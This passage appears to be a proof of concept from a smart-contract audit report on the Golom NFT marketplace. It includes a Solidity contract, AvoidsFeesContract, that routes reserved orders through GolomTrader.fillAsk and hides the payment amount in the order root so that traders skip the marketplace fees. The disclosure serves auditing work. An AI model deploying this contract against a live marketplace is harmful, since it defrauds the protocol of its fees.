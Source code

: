 ### Proof of Concept

*   Clone the [repo](https://github.com/code-423n4/2022-07-golom) and run `yarn`
*   Create a `AvoidsFeesContract.sol` contract in `contracts/test/` folder with following code

```
//contract that avoids paying fees everytime

pragma solidity 0.8.11;

import "../core/GolomTrader.sol";

//A maker will be gurranteed a payout if it makes this contract the reservedAddress and hide the payment info about how much they want in Oder.root
//Users will use this every time to trade to avoid paying fees
//They use the networking effects of the golom marketplace without paying the fees
contract AvoidsFeesContract {
    GolomTrader public immutable golomTrader;

    constructor(GolomTrader _golomTrader) {
        golomTrader = _golomTrader;
    }

    function fillAsk(
        GolomTrader.Order calldata o,
        uint256 amount,
        address referrer,
        GolomTrader.Payment calldata p,
        address receiver
    ) public payable {
        require(
            o.reservedAddress == address(this),
            "not allowed if signer has not reserved this contract"
        ); //the signer will only allow this contract to execute the trade and since it has following checks, they will be guranteed a payout they want without paying the fees
        require(
            p.paymentAddress == o.signer,
            "signer needs to be the payment address"
        );
        //I am using root as an example because it is much cleaner for a POC.
        //but since golom does not have an API where user can submit a signature without using the frontend, they will use something like deadline to hide the amount they want to get paid.
        //Reason they would use deadline is because that is something they can control in the golom NFT frontend
        //They can pack the information about deadline and amount they want to get paid, in one uint256 as a deadline and then the check below would look a little different
        require(
            p.paymentAmt == uint256(o.root),
            "you need to pay what signer wants"
        ); //the maker will hide the payment info in oder.root

        golomTrader.fillAsk{value: msg.value}(
            o,
            amount,
            referrer,
            p,
            receiver = msg.sender
        );
    }
}

```

